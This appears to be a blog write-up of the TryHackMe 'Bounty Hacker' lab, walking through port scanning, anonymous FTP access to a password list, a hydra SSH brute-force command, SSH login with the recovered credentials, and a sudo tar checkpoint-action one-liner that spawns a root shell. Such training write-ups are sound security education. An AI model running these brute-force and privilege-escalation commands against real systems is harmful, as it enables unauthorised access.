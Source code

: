```yaml
---
title: TryHackMe Bounty Hacker
date: 2024-03-11 00:00:00 +0800
categories: [TryHackMe]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- <TARGET_IP> --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 05:41 EDT
Nmap scan report for 10.10.72.181
Host is up (0.32s latency).
Not shown: 56523 filtered tcp ports (no-response), 9009 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 271.50 seconds
```

## **Insights**
---
OS: Ubuntu

- 80 → HTTP
    - Apache httpd 2.4.18 ((Ubuntu)

- 21 → FTP
    - Running vsftpd 3.0.3
    - Allowed anonymous login
    - There are 2 plaintext exposed that looks like a list of passwords and letter containing a username lin

- 22 → SSH
    - Confirmed that lin is legitimate username and locks.txt is a list of possible passwords.
    - login: lin   password: RedDr4gonSynd1cat3

## **Enumeration**
---
### 80 HTTP
Let us see what the webpage looks like.

![Desktop View](/assets/images/bounty-hacker/front-page.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.72.181 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```
```text
=========================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.72.181/images/]
/server-status        (Status: 403) [Size: 277]
```

It looks like we have a redirect page. We can inspect that and look for more information

![Desktop View](/assets/images/bounty-hacker/images-dir.png){: width="972" height="589" }

Nothing looks interesting.

Since we know that port 21 is open, why don't we try and access the FTP anonymously.


### 21 FTP
```bash
ftp <IP>
```
![Desktop View](/assets/images/bounty-hacker/ftp-anon.png){: width="972" height="589" }

Remember that you can do directory listing similar to linux and it is a best practice to use `-a` flag for hidden files

```bash
ls -la
```
![Desktop View](/assets/images/bounty-hacker/list.png){: width="972" height="589" }

There are two interesting files. Let's get that

```bash
get <FILENAME>
```

From your attacking machine, look into your working directory and and you will see these two files that you got from the FTP earlier.


**locks.txt**

```text
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

**task.txt**

```text
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```




## **Gaining an Initial Foothold**

There is a name who wrote the task.txt which can be username. We also have locks.txt that looks like a list of passwords. Let's hail **hydra**

```bash
hydra -l lin -P locks.txt -t 32 10.10.72.181 ssh
```
![Desktop View](/assets/images/bounty-hacker/hydra.png){: width="972" height="589" }

Let us try connecting via SSH using our newlyfound credentials!

```bash
ssh lin@10.10.72.181
```
![Desktop View](/assets/images/bounty-hacker/bling.png){: width="972" height="589" }

## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/bounty-hacker/tar.png){: width="972" height="589" }

The `tar` command, primarily used for archiving files, has the capability to invoke shell commands. This feature can be abused to gain root access when a user is permitted to run `tar` as root without requiring a password.

We can use [gtfobin](https://gtfobins.github.io/gtfobins/vim/#sudo) for privilege escalation.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
`sudo`: Executes the following command with superuser (root) privileges.


`tar -cf /dev/null /dev/null`: Attempts to create (`c`) an archive file with `tar`, specifying `/dev/null` as both the archive file location and the file to be archived. Essentially, this part of the command does nothing meaningful since `/dev/null` is a special file that discards all data written to it.


`-checkpoint=1`: This option tells `tar` to perform a checkpoint action after every 1 record processed. Since `tar` isn't actually processing any real data here (both input and output are `/dev/null`), the checkpoint essentially triggers immediately.


`-checkpoint-action=exec=/bin/sh`: This option specifies the action `tar` should take when it reaches a checkpoint. In this case, it executes `/bin/sh`, a command shell interpreter. Because the entire command is run with `sudo`, `/bin/sh` is executed with root privileges.

> Do not forget to find the FLAGS
{: .prompt-danger }

![Desktop View](/assets/images/bounty-hacker/pwned.png){: width="972" height="589" }